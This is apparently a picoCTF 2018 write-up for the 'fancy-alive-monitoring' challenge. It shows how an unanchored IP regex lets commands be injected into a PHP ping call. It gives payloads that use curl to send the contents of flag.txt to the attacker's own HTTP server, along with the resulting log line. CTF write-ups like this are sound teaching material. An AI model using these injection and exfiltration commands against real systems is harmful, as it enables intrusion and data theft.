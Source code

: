 # fancy-alive-monitoring

As we can see on the page source (`index.txt`) the JS script does a pretty good job of checking the ip with `ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/`.

But, at the same time, request can be made from other sources, like a `postman` client, isn't it? What we'll do is make a request to `http://2018shell.picoctf.com:17593/index.php` 
with `form-encoded` data `1.1.1.1`. The result, as expected, is `Target is alive`

Now, let's look at the php script and notice that it doesn't really verify that the regex should match the *entire* string, because it doesn't have the `$` sign at the end. It just says that the string
should *start* with an `IP`, leaving us an infinite space of possibility.

It is also important to notice that the ip is appended to the `ping -c 1 ` command, but the `exec` function executes the whole string, which might contain more commands, separated by `;`

We can try to send a command like `ping -c 1 1.1.1.1; ls` which will execute the `ping` *AND* the `ls`, but the server doesn't output anything besides `Target is/not Alive`, which is almost useless.

And easy way out would be to use an old `XSS` trick. Setup a simple http server by running `python -m SimpleHTTPServer`, get the your ip and send the command `1.1.1.1; curl <your-ip>:<your_port>/hello`. If it works, your server will
a `GET` request `18.188.70.152 - - [07/Apr/2019 21:08:53] "GET /hello HTTP/1.1" 404` which is awesome. 

Now, let's use some `bash` trickery an examine this command `$(cat flag.txt | tr " " "$")` - it will write the flag and pass it to `tr` that will replace every whitespace with a dollar sign. (urls can't contain whitespaces).
Moreover, this will be evaluated at runtine, meaning we can connect it with other commands, espectially the one we used before `curl <your-ip>:<your_port>/$(cat flag.txt | tr " " "$")` - this will send a HTTP GET request to the
server at the url specified by the contents of `flag.txt`

Gotcha! We have got the flag `18.188.70.152 - - [07/Apr/2019 21:09:02] "GET /Here$is$your$flag:$picoCTFn3v3r_trust_a_b0x_d7ad162d HTTP/1.1" 404 -`